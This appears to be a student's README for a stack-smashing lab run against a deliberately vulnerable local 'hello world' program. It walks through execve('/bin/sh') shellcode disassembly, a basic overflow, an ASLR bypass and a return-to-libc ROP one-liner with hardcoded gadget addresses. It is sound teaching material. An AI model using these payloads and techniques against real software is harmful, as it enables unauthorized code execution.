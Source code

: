 
# Overview

The aim of this project is to demonstrate a basic stack smashing attack on a simple Hello World program. Though this is simple, it's also a good overview how a buffer overflow can be used to gain shell access, and also walks us through the protections the operating system has to protect from these attacks.

For this project, I’m using a relatively newer installation of Arch. This means that I may run into trouble with, as the top of this tutorial indicates, newer versions of Linux.

> Throughout each step, there will be an indentation indicating a script or
> command that executes everything mentioned in that step.

### Some assembly required
I began by compiling and running the provided shell.c code.

> Use the provided Makefile:
```
make
```

Understanding the assembly code: it seems to load the string bin/sh into somewhere in memory, and then executes it by using the sys call command, which I think executes whatever is in a certain register. I also understand the idea of labeling and using the hex code 0xdeadbeef to mark where in memory it is.

At first, I did not think that it was working at all. I began to do the rest and was running into trouble. Then I discovered that it was running the whole time and I’d been trying to do the rest of the commands from within the execvp shell! (It seemed to be missing some environment variables).

(Note: On Arch, when I run objdump, the output is different from what the tutorial indicates it should be. Instead of one line with ``` 4004d6:       69 6e 2f 73 68 00 ef    imul ```, my output is spread into multiple lines, which I guess must be some kind of breaking down of the operation. When I run “cat shell code” it is the same, however. Upon switching to Ubuntu it is the same.)

The entire program dumps to:
```
00000000004004aa <needle0>:
  4004aa:	eb 0e                	jmp    4004ba <there>

00000000004004ac <here>:
  4004ac:	5f                   	pop    %rdi
  4004ad:	48 31 c0             	xor    %rax,%rax
  4004b0:	b0 3b                	mov    $0x3b,%al
  4004b2:	48 31 f6             	xor    %rsi,%rsi
  4004b5:	48 31 d2             	xor    %rdx,%rdx
  4004b8:	0f 05                	syscall 

00000000004004ba <there>:
  4004ba:	e8 ed ff ff ff       	callq  4004ac <here>
  4004bf:	2f                   	(bad)  
  4004c0:	62                   	(bad)  
  4004c1:	69                   	.byte 0x69
  4004c2:	6e                   	outsb  %ds:(%rsi),(%dx)
  4004c3:	2f                   	(bad)  
  4004c4:	73 68                	jae    40052e <__libc_csu_init+0x4e>
	...
```

> The necessary shellcode file can be produced by running:
```
./theshellgame.sh
```

### Learn Bad C in only 1 hour!
The victim.c code seems fairly simple. All it does is take in a char array and print it. Of course, if we overflow the array, fun can happen…
Also: It is impressive how extensive the protections that the OS puts in are these days. I can see how all the things we are disabling would make our ROP attack impossible: if we can’t find or execute our code, our attack is worthless. Successful exploits on a live machine must be very complicated.

Here is a simple diagram of how our code is trying to work. We're attempting to turn:
```
 _______________
|name array     |<- &name
|(64 bytes)     |
|               |
|_______________|
|RBP (8 bytes)  |
|ReturnAddr     |
```
into:

```
 _______________
|shellcode      |<- &name
|(32 bytes)     |
|0 (32 bytes    |
|_______________|
|0 (8 bytes)  	|
|&name			|

```

_(Sam: I had to use “x86_64” for the architecture since my Arch install did not recognize the ‘arch’ architecture. My address was 0x7fffffffe5a0.)_

That way, when the program finishes, it goes to execute the address of shellcode, instead of the return address.

> Run the following script:
```
./learnbadc_in1hour.sh
```
Hit enter until you are greated with "Hello, �_H1��;H1�H1������/bin/sh!"
Success! you are in a shell that was executed unintentionally by the hello
world program. Run some commands. To exit the shell, run exit a couple of
times, or hit CTRL-D

### The importance of being patched:
Now we try to exploit the code with ASLR re-enabled. This means that we cannot rely on the address of ```name``` being constant. Instead, we must calculate where it is every time in order to do the same thing as we did before.

The code breaks down as follows:
First, obtain the address of the code in memory using the ps command. Then use the program to print out the location of the char array. Find out the offset to know how far you have to write the buffer to overflow it. Just as with the example, my code was 88 away from the address.

Next, the xxd script inserts the entire shell script as an input in the char array. This, followed by 40 zeros and the address of the _name_ array, once again causes the program to jump to and execute the stored therein (which launches ```/bin/sh```) This is the same kind of buffer overflow as the previous one. What this exploit offers over the first is it defeats ASLR, by dynamically finding the address of the program in memory.

Note: Upon visual inspection, it seems my version of Ubuntu organizes the stack at a different position in memory than the example code assumed. Specifically, the tutorial assumed that it would be prefixed with ```0x7fff```, and that would be the offset that the stack pointer offsets from. (That’s why it does ``0x7fff$sp+88``). I noticed that sometimes my program would be running at ```0x7ffe```, however, and that is why it was failing. If I hardcode that prefix when running the exploit, I successfully get a shell. So we require a bit of visual inspection to find which script to run. 

>This doesn't work everytime because of the prefix not always being 0x7fff
```
./theimportanceofbeingpatched.sh
```
When the prefix is 0x7fff, it works. The output is the same as when it doesn't
work, but yo can time commands and the other terminal will be running it. To
see the action, in another terminal run:
```
tmux attach -t $USER
```
lol. When you are done having fun, go back to the original terminal and exit
with CTRL-D

### Go-go-gadgets:
For the last part, we try to defeat the no-execute protection on our system. That means we can no longer just stick the code we want onto the stack to run it; stack memory becomes unexecutable. We need to get more clever than that.

What we can use is the system's own code! If we manipulate the return address of our program to run to already-loaded code, such as that from libc. Using our stack diagram:
```
 _______________
|0 (32 bytes)	|<- &name
|			|
|0 (32 bytes    |
|_______________|
|0 (8 bytes)  	|
|&addr of gadget|
|"/bin/sh"		|
|&addr of gadget|
|...			|
```
When the program returns, it does not jump to the right place. Instead, it jumps to a gadget, which is a chunk of code that performs things we want. All we want is to pop the bin/sh string onto a register, and then make a syscall such that it executes. We use libc's code for that, found the first assembly that fit, and jumped to it.

Specifically, I used the revised code linked at the top of the page. Using this, I generated code based on the linked code. The variables we had were:

```
buffer:		0x7fffffffe5a0										//Location of the char buffer 
libc: 		0x7ffff7a15000										//Location of libc on our system
system:		0x7ffff7a15000 + 0x46590 = 0x7ffff7a5b590			//Location of the system
gadgets:	0x7ffff7a15000 + 0x22b9a = 0x7ffff7a37b9a			//Location of the desired gadget
bash: 		0x7fffffffe5a0 + 64d + 8d + 24d = 0x7fffffffe600 	//Location of our /bin/sh string
```
The code we used to use the ROP exploit was therefore:

```
(((printf %0144d 0; printf %016x 0x7ffff7a37b9a | tac -rs..; printf %016x 0x7fffffffe600 | tac -rs..; printf %016x 0x7ffff7a5b590 | tac -rs.. ; echo -n /bin/sh | xxd -p) | xxd -r -p) ; cat) | ./victim
```

Which loads the right addresses onto the stack! This allows the program to return to the gadget instead of the OS, which executes our program!

> Run the following command:
```
./gogadgetgo.sh
```
When you are asked for your name, just press enter. You'll be greated by the
hello world program, but it returns to sh, which is waiting for your command.
When you are done, CTRL-D out of there.
